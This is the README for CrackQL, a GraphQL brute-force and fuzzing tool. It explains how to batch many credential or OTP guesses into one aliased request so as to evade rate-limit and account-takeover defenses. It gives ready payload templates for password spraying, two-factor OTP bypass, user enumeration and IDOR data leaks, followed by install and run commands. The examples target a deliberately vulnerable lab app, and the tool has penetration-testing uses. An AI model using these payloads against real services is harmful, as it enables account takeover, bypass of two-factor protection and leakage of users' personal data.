 CrackQL
=======
CrackQL is a GraphQL password brute-force and fuzzing utility.

<h1 align="center">
	<img src="https://github.com/nicholasaleks/CrackQL/blob/master/static/CrackQL-Banner.png?raw=true" alt="CrackQL"/>
	<br>
</h1>

CrackQL is a versatile GraphQL penetration testing tool that exploits poor rate-limit and cost analysis controls to brute-force credentials and fuzz operations.

It works by automatically batching a GraphQL query or mutation operation which executes dynamic inputs from a supplied dictionary into a single request. CrackQL evades traditional API rate and account take-over monitoring defenses since it uses query batching to stuff large sets of credentials into a single HTTP request.


## Attack Use Cases

CrackQL can be used for a wide range of GraphQL attacks since it programmatically generates payloads based on a list of dynamic inputs, similar to [Burp Intruder](https://portswigger.net/burp/documentation/desktop/tools/intruder). However, unlike Intruder it does not send a request for each unique payload. Instead, CrackQL will optimize its unique payloads into a series of batch queries and mutations masked by different GraphQL aliases in order to evade rate-limit controls.

### Password Spraying Brute-forcing

CrackQL is perfect against GraphQL deployments that leverage in-band GraphQL authentication operations (such as the [GraphQL Authentication Module](https://www.graphql-modules.com/docs#authentication-module)). The below password spraying example works against [DVGA](https://github.com/dolevf/Damn-Vulnerable-GraphQL-Application) with the `sample-inputs/users-and-passwords.csv` dictionary.

*sample-queries/login.graphql*
```
mutation {
  login(username: {{username|str}}, password: {{password|str}}) {
    accessToken
  }
}
```

### Two-factor Authentication OTP Bypass

It is possible to use CrackQL to bypass two-factor authentication by sending all OTP (One Time Password) tokens

*sample-queries/otp-bypass.graphql*
```
mutation {
  twoFactor(otp: {{otp|int}}) {
    accessToken
  }
}
```

### User Account Enumeration

CrackQL can also be used for enumeration attacks to discover valid user ids, usernames and email addresses

*sample-queries/enumeration.graphql*
```
query {
  signup(email: {{email|str}}, password:{{password|str}}) {
    user {
      email
    }
  }
}
```

### Insecure Direct Object Reference

CrackQL could be used to iterate over a large number of potential unique identifiers in order to leak object information

*sample-queries/idor.graphql*
```
query {
  profile(uuid: {{uuid|int}}) {
    name
    email
    picture
  }
}
```

### General Fuzzing

CrackQL can be used for general input fuzzing operations, such as sending potential SQLi and XSS payloads.


## Installation

### Requirements
- Python3
- Requests
- GraphQL

### Clone Repository
`git clone git@github.com:nicholasaleks/CrackQL.git`


### Get Dependencies
`pip install -r requirements.txt`

### Run CrackQL
`python3 CrackQL.py -h`

```
Usage: python3 CrackQL.py -t http://example.com/graphql -q login.graphql -i users-and-passwords.csv

Options:
  -h, --help            Show this help message and exit
  -t URL, --target=URL  Target url with a path to the GraphQL endpoint
  -q QUERY, --query=QUERY  Input query or mutation operation with variable payload markers
  -i INPUTS_CSV, --input=INPUTS_CSV
                        Path to a csv list of arguments (i.e. usernames, emails, ids, passwords, otp_tokens, etc.)
  -d DELIMITER, --delimiter=DELIMITER  CSV input delimiter (default: ",")
  -o OUTPUT_JSON, --output-json=OUTPUT_JSON
                        Output results to a JSON file (default: results/[url]-[timestamp].json)
  -b BATCH_SIZE, --batch-size=BATCH_SIZE
                        Number of batch operations per GraphQL document request (default: 100)
  -a ALIAS_NAME, --alias-name=ALIAS_NAME
  -D DELAY, --delay=DELAY  Time delay in seconds between batch requests (default: 0)
  -v, --version         Print out the current version and exit.
```
